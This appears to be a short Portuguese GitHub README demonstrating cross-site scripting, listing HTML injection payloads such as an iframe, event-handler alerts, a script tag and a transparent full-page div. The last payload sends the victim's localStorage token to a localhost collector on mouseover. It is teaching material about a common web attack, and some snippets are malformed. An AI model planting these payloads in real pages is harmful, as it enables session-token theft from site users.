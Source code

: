 # XSS-Exemplo
Exemplo de funmcionamento do ataque XSS


# Iframe
`<iframe src="https://www.cristianoprogramador.com/">`

# Img
`<img src="1https://www.cristianoprogramador.com/img/profile.jpg">`

# Button
`<button onclick="Alert Hackeado">Click me</button>`

# On mouse over
`<div onmouseover="alert('injetado!')" style="width:100vw; height: 100vh; color:transparent"> </div>`

# Script
`<script>alert('123')</script>`
 
# Request HTTP
`<div onmouseover="axios.post('http://localhost:3001/', {}, {headers:{Authorization:localStorage['token']} }).then((result)=>{})" style="width:100vw; height: 100vh; color:transparent"></div>`